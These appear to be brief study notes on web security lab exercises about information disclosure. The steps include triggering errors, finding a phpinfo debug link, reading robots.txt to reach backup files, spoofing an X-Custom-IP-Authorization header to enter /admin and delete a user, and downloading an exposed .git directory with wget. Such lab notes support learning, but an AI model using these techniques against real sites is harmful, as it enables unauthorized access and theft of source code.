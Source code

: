 # Information disclosure vulnerabilities

GET /product?productId="example"

GET /product?productId=2 HTTP/2 ⇒ <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> 
... /cgi-bin/phpinfo.php

https://.../   +  robots.txt
    User-agent: *
    Disallow: /backup

https://.../  +  /backup 
    https://.../backup/ProductTemplate.java.bak

GET /admin HTTP/2
Trace /admin HTTP/2
    X-Custom-IP-Authorization: 127.0.0.1
Get /admin/delete?username=carlos

https://..../  +  .git   ==>   Index of /.git
wget -r https://YOUR-LAB-ID.web-security-academy.net/.git/   ==> 
cd YOUR-LAB-ID.web-security-academy.net
git log
git status
git show
